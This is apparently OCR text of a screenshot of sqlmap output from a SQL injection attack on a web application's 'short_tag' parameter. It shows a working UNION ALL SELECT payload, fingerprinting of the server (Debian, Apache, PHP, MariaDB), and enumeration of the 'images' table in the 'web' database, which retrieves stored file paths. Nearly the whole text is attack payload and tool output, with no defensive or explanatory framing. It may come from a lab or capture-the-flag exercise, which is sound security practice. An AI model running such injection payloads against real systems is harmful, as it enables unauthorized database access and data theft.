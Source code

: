     Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:58:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.4.4
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:58:01] [INFO] fetching columns for table 'images' in database 'web'
[18:58:05] [INFO] resumed: 'path','text'
[18:58:05] [INFO] fetching entries for table 'images' in database 'web'                                            
[18:58:08] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:09] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:10] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:11] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:12] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:14] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:15] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:16] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:16] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:19] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:20] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:21] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:22] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:23] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:24] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:24] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:27] [WARNING] possible server trimmed output detected (probably due to its length and/or content): ' in 'WHERE'
[18:58:28] [INFO] retrieved: '/var/www/images/cat1.jpg'
[18:58:31] [INFO] retrieved: '/var/www/images/cat10.webp'
[18:58:38] [INFO] retrieved: '/var/www/images/cat11.webp'
[18:58:39] [INFO] retrieved: '/var/www/images/cat12.webp'
[18:58:39] [INFO] retrieved: '/var/www/images/cat13.jpg'
[18:58:41] [INFO] retrieved: '/var/www/images/cat14.webp'
[18:58:42] [INFO] retrieved: '/var/www/images/cat15.webp'
[18:58:43] [INFO] retrieved: '/var/www/images/cat16.webp'
[18:58:43] [INFO] retrieved: '/var/www/images/cat2.jpg'
[18:58:44] [INFO] retrieved: '/var/www/images/cat3.jpg'
[18:58:45] [INFO] retrieved: '/var/www/images/cat4.jpg'
[18:58:46] [INFO] retrieved: '/var/www/images/cat5.avif'
[18:58:46] [INFO] retrieved: '/var/www/images/cat6.avif'
[18:58:47] [INFO] retrieved: '/var/www/images/cat7.png'
[18:58:48] [INFO] retrieved: '/var/www/images/cat8.webp'
[18:59:04] [INFO] retrieved: '/var/www/images/cat9.webp'
Database: web
